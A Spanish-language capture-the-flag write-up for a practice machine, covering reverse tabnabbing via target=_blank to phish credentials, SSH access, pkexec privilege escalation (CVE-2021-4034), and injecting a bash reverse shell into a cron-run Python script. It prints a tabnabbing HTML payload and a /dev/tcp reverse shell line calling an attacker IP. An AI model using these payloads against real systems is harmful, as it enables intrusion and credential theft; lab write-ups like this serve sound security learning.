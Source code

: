 Haremos los reconocimientos de nmap y vemos el puerto 80 y 22 abiertos:
![[Pasted image 20230423173949.png]]
Esta es la página web:
![[Pasted image 20230423174147.png]]
![[Pasted image 20230423174212.png]]
Vamos a probar en registrarnos con el usuario mario y la contraseña 123123:
![[Pasted image 20230423174408.png]]
Y tenemos esta página:
![[Pasted image 20230423174429.png]]
En este punto interceptamos la petición con burpsuite en el punto de cambiar la contraseña y convertimos la petición a GET:
![[Pasted image 20230423174731.png]]
Y si ponemos esto mismo en el navegador de esta forma también se va a cambiar la contraseña:
![[Pasted image 20230423174835.png]]
Pero vemos que no funciona, por lo que a simple vista no es vulnerable a [[MAQUINA SECNOTES (SQL Injection, CSRF (Cross-site request forgery), detectar usuarios válidos con wfuzz, netcat en windows, php malicioso y escalar privilegios en máquina Windows con subsistema de Linux instalado a través de ejecutar un bash.exe)]]. Por lo que vamos a buscar otros métodos. Por lo que vamos a probar en poner un link en el campo de input:
![[Pasted image 20230423175717.png]]
Damos a submit y ahora miramos el código fuente de la página:
![[Pasted image 20230423175743.png]]
Y en el código fuente vemos que en la parte de target pone blank, lo cual es una vulnerabilidad:
![[Pasted image 20230423175837.png]]
Y si buscamos en google nos confirman que se trata de una vulnerabilidad y aquí tenemos esta web que nos explica como explotar esta vulnerabilidad:
![[Pasted image 20230423175934.png]]
Nos dicen que primero tenemos que crear un documento html que podremos llamar por ejemplo payload.html:
```html
<html>
<script>
        if (window.opener) window.opener.parent.location.replace("http://192.168.0.19:443/index.html");
        if (window.parent != window) window.opener.parent.location.replace("http://192.168.0.19:443/index.html");
</script>
</html>
```
![[Pasted image 20230423182649.png]]
Y luego vamos a crear otro llamado index.html que tenga el código fuente de la página
![[Pasted image 20230423182718.png]]
Pegamos todo esto en el index.html:
![[Pasted image 20230423182758.png]]
Tenemos ambos archivos creados:
![[Pasted image 20230423182817.png]]
Por tanto, una vez con todo esto hecho, vamos a crear uns ervidor web con python alojando estos dos archivos:
![[Pasted image 20230423182850.png]]
Y ahora dentro de la web, simplemente tenemos que llamar a este servidor web de python al archivo payload.html de la siguiente manera, poniendo 
```html
	http://192.168.0.19:80/payload.html
```
![[Pasted image 20230423183041.png]]
Nos pondremos en el escucha también con netcat:
![[Pasted image 20230423183110.png]]
Y ahora le damos clic a submit y habremos recibido por netcat las credenciales del usuario:
![[Pasted image 20230423183235.png]]
Tenemos estas credenciales: 
```python
username=daniel

password=C%40ughtm3napping123
```
Vimos que teníamos abierto el puerto ssh, el puerto 22, por lo que vamos a probar en poner estas credenciales, pero veremos que no funcionan:
![[Pasted image 20230423183749.png]]
Por lo que es posible que esta password venga codificada de alguna manera, por lo que vamos a abrir burpsuite para corregir esto,  ya que viene url-encodeada; y vemos que ahora la password es C@ughtm3napping123:
![[Pasted image 20230423183927.png]]
Probamos esta contraseña por ssh y vemos que ya funciona:
![[Pasted image 20230423184048.png]]
Llegados a este punto, tenemos dos formas de escalar los privilegios, o bien con la herramienta linux-exploit-suggester ejecutándolo todo desde el usuario Daniel o bien modificando un archivo .py dentro del directorio del usuario adrián para mandarnos una reverse shell y escalar los privilegios con VIM:
## ESCALADA 1
Una vez dentro, podemos utilizar una herramienta que se llama linux exploit suggester [[1 - Linux Exploit Suggester]] que nos hará un análisis automatizado buscando vulnerabilidades; y encontramos una en la versión de sudo:
![[Pasted image 20230227133025.png]]
Nos lo clonamos dentro de la máquina víctima y lo ejecutamos, donde veremos que probablemente es vulnerable a la vulnerabilidad CVE-2021-3156:
![[Pasted image 20230423185958.png]]
Podemos confirmar que esto es vulnerable con el comando sudo -V, para ver la versión de sudo:
![[Pasted image 20230423190026.png]]
Tenemos este repositorio de github donde se nos muestra cómo explotar esta vulnerabilidad, donde además vemos que en el ejemplo que se nos pone en este repositorio la máquina víctima tiene la misma versión de sudo que la nuestra:
![[Pasted image 20230423190237.png]]
![[Pasted image 20230423190300.png]]
Pero cuando ejecutamos este exploit vemos que no funciona:
![[Pasted image 20230423190736.png]]
Por lo que volvemos a mirar por más vulnerabilidades de la herramienta linux-exploit-suggester:
![[Pasted image 20230423190825.png]]
Si buscamos herramientas para explotar esta vulnerabilidad, encontramos esta de github:
![[Pasted image 20230423190852.png]]
Y tenemos un proof of concept que nos explica como explotar esto mismo, donde vemos que simplemente tenemos que ejecutar el comando make y luego el exploit que se nos genera para convertirnos en root:
![[Pasted image 20230423190938.png]]
![[Pasted image 20230423191005.png]]
Esto nos habrá generado un archivo llamado cve-2021-4034, el cual simplemente tenemos que ejecutarlo y ya somos root:
![[Pasted image 20230423191045.png]]
Vemos que en el directorio de root tenemos un archivo llamado nap.py, el cual contiene unas credenciales de la base de datos mysql:
![[Pasted image 20230423191500.png]]
Por tanto nos conectamos a esta base de datos con estas credenciales y estamos dentro:
![[Pasted image 20230423191545.png]]
Y aquí encontramos las credenciales que haya dentro de la base de datos, aunque nos encontramos con nosotros mismos, que podríamos crackear nuestra password con john the ripper fácilmente ya que nuestra password era password1
![[Pasted image 20230423191711.png]]
## ESCALADA 2
Dentro del directorio personal del usuario Adrian tenemos un archivo llamado query.py:
![[Pasted image 20230423192358.png]]
Y si vemos este código de python podemos ver que lo que hace es obtener la fecha actual del sistema y la guarda en el site_status.txt:
![[Pasted image 20230424100708.png]]
![[Pasted image 20230424100727.png]]
Entonces aquí lo que podemos hacer es añadir dentro de este fichero de python el comando para ganar una reverse shell por parte del usuario Adrian, por lo que ponemos esto:

```bash
os.system("bash -c 'bash -i >& /dev/tcp/192.168.0.19/443 0>&1'")
```

![[Pasted image 20230424100811.png]]
Y entonces ahora esperamos un minuto y habremos recibido la reverse shell:
![[Pasted image 20230424100927.png]]
Y además siendo este usuario podemos ejecutar el comando sudo -l y vemos una vulnerabilidad que nos permite ejecutar comandos como root con vim:
![[Pasted image 20230424101000.png]]
Por lo que procedemos a [[14 - Escalada de Privilegios con VIM]]:

